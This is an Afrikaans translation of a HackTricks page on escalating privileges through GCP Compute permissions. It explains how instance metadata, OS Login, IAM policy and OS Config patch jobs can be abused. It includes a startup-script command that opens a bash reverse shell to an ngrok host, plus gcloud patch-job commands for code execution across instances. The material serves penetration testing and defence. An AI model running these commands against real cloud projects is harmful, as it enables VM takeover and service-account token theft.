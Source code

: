 # GCP - Rekenaarvoorregverhoging

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Rekenaar

Vir meer inligting oor Rekenaars en VPC (netwerk) in GCP, kyk:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die voorregverhogingsaanvalle uit te voer wat vereis dat die metadata van die instansie gewysig word (soos die byvoeging van nuwe gebruikers en SSH-sleutels), dit **nodig is dat jy `actAs`-toestemmings oor die SA wat aan die instansie geheg is, het**, selfs as die SA reeds geheg is!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie toestemming kan jy die **metadata-inligting** van 'n **instansie wysig** en die **geautoriseerde sleutels van 'n gebruiker verander**, of 'n **nuwe gebruiker met sudo-toestemmings skep**. Daarom sal jy in staat wees om via SSH in te tree na enige VM-instansie en die GCP-diensrekening wat die Instansie gebruik, te steel.\
Beperkings:

* Let daarop dat GCP-diensrekeninge wat in VM-instansies hardloop, standaard 'n **baie beperkte omvang** het
* Jy sal **in staat moet wees om die SSH-bediener te kontak** om in te teken

Vir meer inligting oor hoe om hierdie toestemming uit te buit, kyk:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur 'n nuwe aanvangsskrip by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee dieselfde voorregte as die vorige toestemming, maar oor spesifieke instansies in plaas van 'n hele projek. Dieselfde aanvalle en beperkings as vir die vorige afdeling geld.

### `compute.instances.setIamPolicy`

Hierdie soort toestemming sal jou toelaat om jouself 'n rol te gee met die vorige toestemmings en voorregte te eskaleer deur hulle te misbruik.

### **`compute.instances.osLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal nie root-voorregte binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol in te teken met hierdie toestemming binne die VM-instansie, moet jy die `iam.serviceAccounts.actAs` toestemming hê oor die SA wat aan die VM geheg is.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As OSLogin geaktiveer is in die instansie, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANSIE]`** hardloop en aan die instansie koppel. Jy sal root-voorregte binne die instansie hê.

{% hint style="success" %}
Om suksesvol in te teken met hierdie toestemming binne die VM-instansie, moet jy die `iam.serviceAccounts.actAs` toestemming hê oor die SA wat aan die VM geheg is.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om 'n virtuele masjien te skep met 'n toegewysde Diensrekening en die token van die diensrekening te steel deur toegang tot die metadata te verkry om voorregte daaraan te eskaleer.

Die aanvalskrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) gevind word.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch job of deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

As jy hierdie handmatig wil misbruik, moet jy 'n [patch job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) of [deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) skep vir 'n patch job hardloop:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Om 'n patch deployment te implementeer:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Geoutomatiseerde gereedskap soos [patchy](https://github.com/rek7/patchy) bestaan om lakse toestemmings op te spoor en outomaties lateraal te beweeg.

**Jy kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra toestemmings** tot rekenaarbeeld.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra toestemmings** tot 'n skyf-snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra toestemmings** tot 'n skyf.

### Bypass Toegangsbereik

Volg hierdie skakel om 'n paar [**idees te vind om toegangsbereike te probeer omseil**](../).

### Plaaslike Voorregte-Eskalasie in GCP Rekenaarinstansie

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
